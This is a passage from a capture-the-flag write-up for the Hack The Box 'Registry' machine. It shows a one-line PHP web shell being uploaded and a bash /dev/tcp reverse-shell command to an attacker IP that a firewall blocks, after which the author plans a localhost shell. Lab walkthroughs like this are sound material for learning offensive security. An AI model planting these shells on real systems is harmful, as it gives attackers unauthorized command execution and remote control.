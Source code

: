 We can upload a basic php  shell `<?php system($_GET['cmd']); ?>` and can run `bash` commands to get our revershell like `bash -c 'bash -i >& /dev/tcp/10.10.14.226/9001 0>&1'`.

![](/assets/images/htb-writeup-registry/upload.png)

But i'm unable to get the reverse shell back and the request getting `timed out`.

![](/assets/images/htb-writeup-registry/timeout.png)

After little bit of debugging i realized that there is some `firewall` which is blocking and there some `IP` restrictions enable on this box. Since we cannot get reverse shell on to our attack machine. Since we've `bolt` user shell. we'll try to make `reverse` shell to `localhost` . 
